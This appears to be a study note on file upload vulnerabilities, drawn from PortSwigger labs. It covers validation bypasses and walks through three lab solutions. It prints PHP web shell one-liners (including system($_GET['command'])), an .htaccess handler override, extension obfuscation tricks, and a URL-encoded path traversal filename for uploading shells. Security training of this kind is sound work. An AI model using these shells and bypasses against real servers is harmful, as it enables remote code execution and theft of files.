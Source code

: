 # File Upload Vulnerabilities

[Portswigger](https://portswigger.net/web-security/file-upload#what-are-file-upload-vulnerabilities)

## Methodology

Hint: The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping

the following PHP one-liner could be used to read arbitrary files from the server's filesystem `<?php echo file_get_contents('/path/to/target/file'); ?>` 
or `<?php echo system($_GET['command']); ?>` 

### Flawed file input type validation

Example HTML form request:

```
POST /images HTTP/1.1
    Host: normal-website.com
    Content-Length: 12345
    Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="image"; filename="example.jpg"
    Content-Type: image/jpeg

    [...binary content of example.jpg...]

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="description"

    This is an interesting description of my image.

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="username"

    wiener
    ---------------------------012345678901234567890123456--
```

if input validation only applies to the first part of the `form-data` you can change the data types and get execution like that, notice the two different `Content-Type`s above

### Preventing file execution in user-accessible directories

As a precaution, servers generally only run scripts whose MIME type they have been explicitly configured to execute. Otherwise, they may just return some kind of error message or, in some cases, serve the contents of the file as plain text instead

Tip: Web servers often use the filename field in multipart/form-data requests to determine the name and location where the file should be saved

### Insufficient blacklisting of dangerous file types

Such blacklists can sometimes be bypassed by using lesser known, alternative file extensions that may still be executable, such as .php5, .shtml, and so on

### Overriding the server configuration

you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable MIME type. 

examples:

Apache added as `.htaccess`

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```

IIS added as web.config

```
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
```

### Obfuscating file extensions

steps to obfuscate

- case sensitive bypassing like `exploit.pHp`
- provide multiple extensions `exploit.php.jpg`
- add trailing characters `exploit.php.`
- try using URL encoding, or double URL encoding for dots, forward slashes, and backward slashes `exploit%2Ephp`
  - If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked
- Add semicolons or URL-encoded null byte characters before the file extension `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- try using multibyte unicode characters which may be converted to null bytes and dots after unicode conversion or normalization like: `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path
- other defenses may strip or replace dangerous extensions, do this to maybe avoid: `exploit.p.phphp`

### Flawed validation of the file's contents

Instead of implicitly trusting the Content-Type specified in a request, more secure servers try to verify that the contents of the file actually match what is expected

certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata

### Exploiting file upload vulnerabilities without remote code execution

**Uploading malicious client-side scripts**

if you can upload HTML files or SVG images, you can potentially use <script> tags to create stored XSS payloads

**Exploiting vulnerabilities in the parsing of uploaded files**

example, you know that the server parses XML-based files, such as Microsoft Office `.doc` or `.xls` files, this may be a potential vector for XXE injection attacks

### Uploading files using PUT

some web servers may be configured to support PUT requests, this can provide an alternative means of uploading malicious files, even when an upload function isn't available via the web interface

Tip: You can try sending OPTIONS requests to different endpoints to test for any that advertise support for the PUT method.

## Labs walkthrough

### Remote code execution via web shell upload

Background: 

```
This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

- log into your account, notice the option for uploading an avatar image
- upload an arbitrary image and notice that afterwards your preview of your avatar is now displayed on the page
- in `Proxy > HTTP history` click the filter bar to open the `HTTP history filter` window, under the `Filter by MIME type` enable the `images` checkbox then apply the changes
- no in burp history search for the `GET` request to `/files/avatars/<YOUR-IMAGE>` and send it to repeater
- now on your system create a file called exploit.php containing this: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- use the avatar upload functionality to upload the above file, then in the repeater tab change the path to `GET /files/avatars/exploit.php HTTP/1.1` and send
- you will now have carlos' secret in the response

### Web shell upload via Content-Type restriction bypass

Background:

```
This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

- log in and upload an image as your avatar, go to your account page
- in burp go to `proxy > http history` and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>` and send it to repeater
- on your system create a file called exploit.php containing this: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- attempt to upload this script as your avatar but notice you get blocked, with an error saying only files with MIME type `image/jpeg` or `image/png`
- in burp go to history and send the `POST /my-account/avatar` request to repeater
- change the `content-type` to `image/jpeg` and send
- switch to the `GET` request in repeater and send to get the info for carlos' secret

### Web shell upload via path traversal

Background:

```
This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

- log in and upload an image as your avatar, then go back to the account page
- in burp go to `proxy > http history` and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>` and send it to repeater
- on your system create a file called exploit.php containing this: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- upload the script and notice you don't get blocked based on it being a php file
- in repeater go to the tab containing the `GET /files/avatars/<YOUR-IMAGE>` request, in the path replace the name of your image file with exploit.php and send the request, observe that instead of executing the script and returning output, it just served it as a txt file
- in burps history find the `POST /my-account/avatar` and send it to repeater
- change the `POST /my-account/avatar` requests `Content-Disposition` headers `filename` to include a directory traversal sequence: `Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
- upload and notice the response `The file avatars/exploit.php has been uploaded`, this means the directory traversal was stripped
- now obfuscate the directory traversal with URL encoding the slash character `/`: `filename="..%2fexploit.php"`
- send the request and observe that the message now says: `The file avatars/../exploit.php has been uploaded`, inidcating the file name is being URL decoded by the server
- go back to your account page
- find the `GET /files/avatars/..%2fexploit.php` and observe that carlos' secret was returned in the response

### 




























